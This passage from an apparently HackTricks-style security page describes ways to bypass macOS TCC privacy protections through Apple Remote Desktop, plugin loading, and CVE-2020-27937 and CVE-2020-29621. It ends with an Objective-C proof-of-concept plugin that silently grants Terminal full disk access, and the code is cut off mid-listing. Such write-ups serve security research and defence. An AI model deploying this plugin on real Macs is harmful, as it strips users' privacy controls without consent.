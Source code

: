 ### Apple Remote Dektop

As root you could enable this service and the **ARD agent will have full disk access** which could then be abused by a user to make it copy a new **TCC user database**.

## By plugins

Plugins are extra code usually in the form of libraries or plist, that will be **loaded by the main applicatio**n and will execute under its context. Therefore, if the main application had access to TCC restricted files (via granted permissions or entitlements), the **custom code will also have it**.

### CVE-2020-27937 - Directory Utility

The application `/System/Library/CoreServices/Applications/Directory Utility.app` had the entitlement **`kTCCServiceSystemPolicySysAdminFiles`**, loaded plugins with **`.daplug`** extension and **didn't have the hardened** runtime.

In order to weaponize this CVE, the **`NFSHomeDirectory`** is **changed** (abusing the previous entitlement) in order to be able to **take over the users TCC databas**e to bypass TCC.

For more info check the [**original report**](https://wojciechregula.blog/post/change-home-directory-and-bypass-tcc-aka-cve-2020-27937/).

### CVE-2020-29621 - Coreaudiod

The binary **`/usr/sbin/coreaudiod`** had the entitlements `com.apple.security.cs.disable-library-validation` and `com.apple.private.tcc.manager`. The first **allowing code injection** and second one giving it access to **manage TCC**.

This binary allowed to load **third party plug-ins** from the folder `/Library/Audio/Plug-Ins/HAL`. Therefore, it was possible to **load a plugin and abuse the TCC permissions** with this PoC:

```objectivec
#import <Foundation/Foundation.h>
#import <Security/Security.h>

extern void TCCAccessSetForBundleIdAndCodeRequirement(CFStringRef TCCAccessCheckType, CFStringRef bundleID, CFDataRef requirement, CFBooleanRef giveAccess);

void add_tcc_entry() {
    CFStringRef TCCAccessCheckType = CFSTR("kTCCServiceSystemPolicyAllFiles");
    
    CFStringRef bundleID = CFSTR("com.apple.Terminal");
    CFStringRef pureReq = CFSTR("identifier \"com.apple.Terminal\" and anchor apple");
    SecRequirementRef requirement = NULL;
    SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
    CFDataRef requirementData = NULL;
    SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);
    
    TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {
    
    add_tcc_entry();
    
    NSLog(@"[+] Exploitation finished...");
    exit(0);
```
